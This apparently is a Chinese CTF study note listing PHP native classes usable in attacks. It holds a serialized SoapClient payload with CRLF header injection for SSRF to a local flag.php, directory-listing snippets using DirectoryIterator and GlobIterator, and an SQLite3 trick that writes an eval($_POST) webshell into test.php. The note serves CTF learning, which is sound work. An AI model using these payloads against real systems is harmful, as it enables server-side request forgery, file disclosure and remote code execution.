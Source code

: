 - # SoapClient
- ```php
  <?php
  $a = new SoapClient(
    null,
    array(
        'uri'=>'bbb',
        'location'=>'http://127.0.0.1:81/flag.php',
        'user_agent'=>"test\r\nCookie: PHPSESSID=0mrbj32r0ptfcnf7l6kmmgh1c4"
    )
  );
  echo urlencode(serialize($a));
  # 利用: $a->notexist();
  ?>
  ```
- # Error类:
	- ((62efc5c6-a0d5-4eab-906e-0db03366b1e9))
- # DirectoryIterator
  id:: 6478aaed-922b-471c-b8d6-ec1b0cb0444d
	- 可以读取文件夹
	- ```php
	  $a=new DirectoryIterator("glob:///*");
	  foreach($a as $f){
	  	echo $f.' ';
	  }
	  ```
	- FilesystemIterator与之类似
- # GlobIterator
	- 可以使用glob读取文件夹
	- ```php
	  <?php
	  highlight_file(__file__);
	  $dir = '/*';
	  $a = new GlobIterator($dir);
	  foreach($a as $f){
	      echo($f->__toString().'<br>');
	  }
	  ?>
	  ```
- # SplFileObject
	- 可以读取文件，支持伪协议
	- 例子：[[CTF/WP/GDOUCTF 2023 反方向的钟]]
- # SQLite
	- 可以实现文件创建/写入
	- ```php
	  <?php
	  // 创建或连接数据库
	  $db = new SQLite3('test.php');
	  
	  // 创建新表
	  $query = 'CREATE TABLE IF NOT EXISTS users (id INTEGER PRIMARY KEY, username TEXT, email TEXT)';
	  $db->exec($query);
	  
	  // 向表中添加数据
	  $query = 'INSERT INTO users (username, email) VALUES (\'TestUser\', \'<?php eval($_POST["data"]);\')';
	  $db->exec($query);
	  
	  // 关闭数据库连接
	  $db->close();
	  
	  ```